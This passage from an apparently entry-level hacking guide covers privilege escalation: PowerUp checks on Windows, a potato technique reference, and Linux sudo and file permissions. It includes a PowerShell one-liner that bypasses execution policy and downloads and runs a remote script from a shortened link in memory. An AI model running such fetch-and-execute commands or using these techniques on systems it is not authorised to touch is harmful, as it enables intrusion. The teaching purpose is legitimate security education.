 ### PowerUp

PowerUp is an extremely useful script for quickly checking for obvious paths to privilege escalation on Windows. It is not an exploit itself, but it can reveal vulnerabilities such as administrator password stored in registry and similar. We shamelessly use [harmj0y's guide](https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/) as reference point for the following guide. Some basic knowledge about how to import Powershell modules and used them is required.

Import the PowerUp module with the following:

`PS C:\>` **`Import-Module PowerUp.ps1`**

If you want to invoke everything without touching disk, use something like this:

`C:\> powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”`



### Finding stuff fast

`findstr /s /C:"stringtosearchfor.txt" "C:*"`

### Service account escalation \(potato\)

There are several known techniques to escalate from service accounts to SYSTEM. The details of this exploit are slightly out of scope for what's supposed to be an entry level guide to hacking, but we chose to include it because it has saved us numerous times and because @decoder does such a good job with it. [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)

## **Linux privilge escalation**

### Sudo

What is sudo? 

`sudo` is a command you will probably see a lot in the Linux world. It allows regular users to perform certain tasks as root user. This is useful for performing administrative tasks without switching to the root user all the time. It requires that the user has been added to the sudoers group. Of course we should abuse this. Try `sudo -l` to find the commands the user you currently can run as sudo.

### Linux permissions

In Linux, everything is a file. All files have owners and access permissions and we use that to our advantage

`ls -l Desktop/`

`-rwxr-xr-x 2 chris meme.jpg 4096 Dec 1 11:45 .`

This permissions indication is grouped into three categories: owner, group, world in that order. For each of those three a read, write and execute permission is set. Owner simply means the owner of the file, group means access to the file through being member of the appropriate group and world simply means any user on the system.
